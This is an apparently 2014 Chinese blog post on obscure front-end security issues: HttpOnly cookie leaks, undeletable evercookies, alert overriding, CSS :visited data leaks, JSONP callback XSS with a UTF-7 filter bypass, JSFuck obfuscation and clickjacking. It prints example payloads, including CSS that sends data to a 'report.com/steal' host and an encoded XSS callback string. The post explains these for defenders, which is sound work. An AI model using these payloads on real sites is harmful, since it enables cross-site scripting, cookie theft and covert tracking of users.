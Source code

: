 ```yaml
---
layout: post
title: "前端安全冷门知识杂谈"
date: 2014-05-27 23:52
comments: true
tags: 
	- web
---
```


###零、概述
提起web前端安全，大家都会想到两个名词：`xss`和`csrf`。             
抛去这最常见，最被广泛应用的两者，我想谈谈一些难以觉察的，比较偏门的安全关注点。               
大概分为以下章节：
> 盗取无法用js读写的Cookie                 
删不掉的本地存储                  
函数覆写监听上报                  
内存Cookie与硬盘Cookie                  
CSS带来的点击量泄露                  
JSONP回调函数与UTF-7编码                  
过滤与代码混淆                  
心理学与社会工程学                  

资料略多，文章较长，请自备瓜子…
<!-- more -->
###一、盗取无法用js读写的Cookie
为了防范xss获取Cookie，网络规范提供了HttpOnly Cookie机制，设置了该标志后，js脚本将无法读写该Cookie。但既然首先是“无法读”，如何“可以读”就成为了个有趣的话题。
```
setcookie("test", 1, time()+3600, "", "", 0); // 设置普通Cookie
setcookie("test_http", 1, time()+3600, "", "", 0, 1);// 第7个参数是HttpOnly 标志，0 为关闭(默认)，1 为开启
```
我们还是可以通过一些服务器上的漏洞去获取它们。

####2.1) 调试信息泄露
比较经典的是PHP的phpinfo文件：                    
![phpinfo文件](/assets/blogImg/safety_001.jpg)                                       
如果在部署服务时，没有删除这个默认的调试信息文件，将泄露服务器信息。其中包括HttpOnly Cookie。               
访问phpinfo.php，将看到：                
![Alt text](/assets/blogImg/safety_002.jpg)                              
其他的服务器，如python的Django，也有类似的调试信息文件，在外发时要注意清除。                  

####2.2) Apache 2.2.x版本请求头超长泄露
Cookies最大限制一般为4kb左右，如果请求头长度超过LimitRequestFieldSize，将会引发400错误。在Apache 2.2.x多个版本内，如果引发400(Bad Requerst)错误，会返回出错的请求头内容，这就包含了HttpOnly Cookie。
因此，我们可以利用这个漏洞，构造一个超长的请求，让Apache返回400，并用ajax捕获xhr.responseText即可获得HttpOnly Cookie信息。               
![Alt text](/assets/blogImg/safety_003.jpg)                    

###三、删不掉的本地存储
如果把浏览器理解为一个器官，把恶意标志比方做寄生虫。这标志通过某种途径寄生在了浏览器，并且"永久"寄生，这想想都很可怕。这个标志，可能是植入广告的跟踪标志，或者有其他用处，总之它依附到你的浏览器就删不掉了。                                               
但它是如何寄生的呢？又如何做到“永久”？这就涉及到本地存储安全。我们先看下常规的本地存储方案：
> Cookie - 是最常见的方式，key-value 模式                   
UserData - IE自己的本地存储，key-value 模式                   
localStorage - HTML5 新增的本地存储，key-value 模式                   
local Database -  HTML5 新增的浏览器本地DataBase，是SQLite 数据库                   
Flash Cookie Flash 的本地共享对象（LSO），key-value 模式，跨浏览器                   

除去这些，我还收集了一些比较“偏门”的存储方案：          
> Silverlight的IsolatedStorage - 类似HTML5 localStorage                   
PNG Cache，将Cookie 转换成RGB 值描述形式，以PNG Cache 方式强制缓存着，读入则以HTML5 的canvas 对象读取并还原为原来的Cookie 值                   
HTTP Etags、Web Cache - 本质上都是利用了浏览器缓存机制：浏览器会优先从本地读取缓存的内容                   
Web History，利用的是“CSS 判断目标URL 是否访问过”技巧，比如a标签访问过会显示紫色（新浏览器已fix）                   
window.name，本质就是一个DOM 存储，并不存在本地。                   

老外Samy Kamkar用半天开发了一个JavaScript API：[evercookie](http://en.wikipedia.org/wiki/Evercookie)。                    
该API利用了上面的全部存储手段，将“`永不丢失你的cookie`”贯彻到底…当evercookie发现用某种机制存储的cookie被数据将删除之后，它将利用其它机制创建的cookie数据来重新创建，让用户几乎不可能删除cookie。

###四、函数覆写监听上报
覆写函数，可以用于防范？这是网上安全论坛中有人提到的一个偏门要点。其缘由是：`搞跨站的人总习惯用alert来确认是否已成功跨站`，如果你要监控是否有人在测试你的网站xss的话，可以在你要监控的页面里覆写alert函数，记录alert调用情况。
```
function log(s) {
    var img = new Image();
    img.src = "http://yousite.com/log.php?caller=" + encodeURIComponent(s);
}

var _alert = alert;
window.alert = function(s) {
    log(alert.caller);
    _alert(s);
}
```
如此，就能在有人调用alert时，就执行上报，以供监控。好吧，这里还涉及人的心理学…                             
其实函数覆写无论攻还是防，都应该是我们关注的一个点。相关文章：《[浅谈javascript函数劫持](http://www.xfocus.net/articles/200712/963.html)》。

###五、内存Cookie与硬盘Cookie
`内存Cookie` - 指没有设置过期时间Expires的Cookie，随浏览器关闭，此Cookie在内存中销毁                              
`硬盘Cookie` - 设置了过期事件Expires的Cookie，常驻硬盘，直到过期

我们很容易得出结论：内存Cookie更安全。因此，某些站点会把`敏感信息放到内存Cookie`里面。这原本是没什么风险的，但恰巧会在遇到XSS的时候失控。试想下，XSS攻击者可以给内存Cookie加一个过期时间，使其变为硬盘Cookie，就会在未来很长一段时间内，甚至是永久控制着目标用户的账号权限。                  

因此，这里有两个关注点：                 
1. 敏感信息还是不要放Cookie里，即使是内存Cookie；              
2. 服务器要做Cookie的三个维度的校验 -  唯一性（是否验证通过）、完整性（是否被篡改了）、是否过期。               

###六、CSS带来的点击量泄露
在我们的印象中，前端安全基本是js带来的问题，但css也会有安全隐患吗？是的。除去IE下的css中执行js代码问题，还有另外一个关注点。                   
假如有一个开源组件，我们只看了下js源码，觉得没有漏洞风险，就直接拿过来使用了。况且，没有前端人员乐于去读别人的css的…但有某种极端的情况，css带来了意想不到的数据泄露。                    
试想这是一个`导航栏组件`，html代码是这样的：                 
```
<a href="http://yousite.com/a1" id="a1">nav1</a>
<a href="http://yousite.com/a2" id="a2">nav2</a>
<a href="http://yousite.com/a3" id="a3">nav3</a>
```
你忽略掉的css写成这样：                
```
#a1:visited {background: url(http://report.com/steal?data=a1);}
#a2:visited {background: url(http://report.com/steal?data=a2);}
#a3:visited {background: url(http://report.com/steal?data=a3);}
```
我们用到业务里，用户点击这三个导航后，a标签的visited伪属性生效，就会设置background，而背景的url其实是上报地址。这时候，你的业务的`点击数据量`就暴露给第三方了！                     
当然，这只针对旧版本浏览器，新版本浏览器都已fix这个问题。可是，HTML5的出现又让这个问题回归了…                                              
HTML5提供伪类`::selection`，当指定对象区域被选择时，就会触发。其原理跟上面类似。                         

###七、JSONP回调函数与UTF-7编码
####7.1) 基本原理 
在JSONP技术中，服务器通常会让请求方在请求参数中提供callback 函数名，而不是由数据提供方定制，如请求方发起请求：                                 
`cgi-bin/get_jsonp?id=123&call_back=some_function`                              
返回数据格式为：                                                  
`some_function([{'id':123, data:'some_data'}]);`                              
如果，数据提供方没有对callback函数名做安全过滤，就会带来XSS问题。                              
请求：                              
`cgi-bin/get_jsonp?id=123&call_back=<script>alert(1);</script>`
返回：                              
`<script>alert(1);</script>([{'id':123, data:'some_data'}]);`                              
所以，一般服务器都会对call_back参数进行过滤，但过滤的方法是否会存在漏洞呢？                              
####7.2) IE解析UTF-7漏洞
比较简单的过滤方法，是过滤`<>`字符，使得无法构成html标签。但在IE6\IE7的某些版本中，存在以下漏洞：**如果发现文件前面是“+/v8”开头，就把文件当做UTF-7解析**（IE7后续版本已发布补丁修复）。                       
在没被修复的IE版本中，如果我们将上面的请求用utf-7编码。再在前面加上"+/v8"头：                       
`cgi-bin/get_jsonp?id=123&callback=%2B%2Fv8%20%2BADw-script%2BAD4-alert(1)%2BADw-%2Fscript%2BAD4`                       
这时候巧妙的躲开了`<>`过滤，而返回：                       
`+/v8 +ADw-script+AD4-alert(1)+ADw-/script+AD4({‘id’=>123,data=>’some_data’});`                       
这时IE将这个jsonp文件当作utf-7解析，依然触发XSS。                       

###八、过滤与代码混淆
过滤器如果过滤了大部分的js函数，如eval、alert之类，是否就能保证安全呢？必然不是，我们还有强大的js代码混淆手段，可以绕过过滤器。这里推荐一个神奇的网站：[jsfuck](http://utf-8.jp/public/jsfuck.html)。                     
站名如其名，满满的恶意…它可以仅仅用6个字符：`[]()!+`去混淆编码js。而且兼容性特别的完善。以下是我在最新chrome下的截图，将一句`alert(1)`编码成了3009个字符，并执行成功：                              
![Alt text](/assets/blogImg/safety_004.jpg)                              
所以过滤器仅仅通过适配关键函数名，是不能保证安全性的。

###九、心理学与社会工程学
有个观点认为“一切钓鱼网站成功案例，都是一次心理学的实战演练”。在这个层面，可谓五花八门，创意百出。分享两个案例：
####9.1）诱导触发拖拽事件
比方说，有某已知漏洞，要用户触发拖拽事件才能触发。怎么搞定这个事情呢？                      
很简单，添加一张图片：                      
![Alt text](/assets/blogImg/safety_005.jpg)                      
注意这是一张图片，滚动条是图片的一部分而不是真正的浏览器控件，用户自然会去下拉“滚动条”，因而触发了这个漏洞。

####9.2) 传说中的QQ空间“传染病毒”
步骤是这样的：                    
1. A(始作俑者)发布了一条说说：`这个网站很好玩，快来试试吧~ http://xxx.xxx`                     
2. A的好友们看到了，打开了这个链接，玩了一下后，就关闭了页面                     
3. 好友们不知道，竟然自己的空间主动转发了这条说说（问题是自己没有点转发呀！）                     
4. 一传十十传百，越传越广…                     

但真实的情况跟CSRF没一点关系。玄妙在于：`好友们打开链接后干了什么事情？`                     
这个网站是一个小球在跳来跳去，网站上有一句话：你能点到我吗？                     
用户看到后，就很想去点击小球，看会发生什么；但点击后，就转发了说说…                     

有人会问，这不是CSRF吗？还真不是。做法却很简单：                     
“有趣”的网站内嵌了一个iframe，iframe加载的是这条说说的原页面，然后把“转发”按钮刚好放到小球的位置上，再把这iframe的透明度变为0。所以用户点击小球，其实是`点击了iframe中的转发按钮`。真是令人万万没想到。                     

以上。
End. 5.27 by litten.                                           
